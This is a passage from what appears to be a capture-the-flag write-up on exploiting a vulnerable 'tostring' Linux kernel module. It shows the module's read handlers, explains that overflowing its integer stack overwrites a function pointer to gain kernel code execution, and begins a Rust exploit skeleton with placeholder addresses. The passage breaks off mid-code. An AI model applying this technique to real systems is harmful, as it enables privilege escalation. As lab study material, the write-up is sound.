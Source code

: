 #### Reading from char device

On ther other hand, the reading function just calls the `tostring_read` function stored in the internal `tostring_s` struct, which should fill the input buffer with either a decimal or hexadecimal string representing the top integer value of `tostring_stack` (if not empty).

```C
static ssize_t tostring_read(struct file *f, char __user *buf, size_t len, loff_t *off)
{
  printk(KERN_INFO "Tostring: read()\n");
  return(tostring.tostring_read)(f, buf, len, off); 
}

static ssize_t tostring_read_hexa(struct file *f, char __user *buf, size_t len, loff_t *off)
{
  printk(KERN_INFO "Tostring: read_hexa()\n");
  if (tostring.pointer > 0)
    return(snprintf(buf,len,"%16llx\n",tostring.tostring_stack[--tostring.pointer]));
  else return(0);
}

static ssize_t tostring_read_dec(struct file *f, char __user *buf, size_t len, loff_t *off)
{
  printk(KERN_INFO "Tostring: read_dec()\n");
  if (tostring.pointer > 0)
    return(snprintf(buf,len,"%lld\n",tostring.tostring_stack[--tostring.pointer]));
  else return(0);
}
```

If we achieve to overwrite the `tostring_read` function pointer with the address of any other kernel function, we can achieve code execution from the LKM context (likely giving full privileges to the system). 

## Exploitation

### Verify our guess + exploit skeletton

First, we will write a simple script that trigger the bug we found. The script will be adapted later to craft the exploit.

What we need to do is:
1. Open `/dev/tostring`
2. Fill the stack to make it full (by writing 32 bits integers)
3. Write the stack with our malicious pointer (should overflow the stack and overwrite `tostring_read`)
4. Performs a read to call the `tostring_read` function pointer, effectively diverting the control flow to our malicious function 

Here is a simple Rust code doing this:
```Rust
use std::{fs::OpenOptions, io::{Read, Write}};

const TOSTRING_STACK_SIZE: usize = 64;

fn main() {
   
    let intval: usize = 0xdeadbeef;
    let tostring_read_override_ea: usize = 0x41414141;

    let mut dev = match OpenOptions::new()
        .read(true)
        .write(true)
        .open("/dev/tostring")
    {
        Ok(f) => f,
```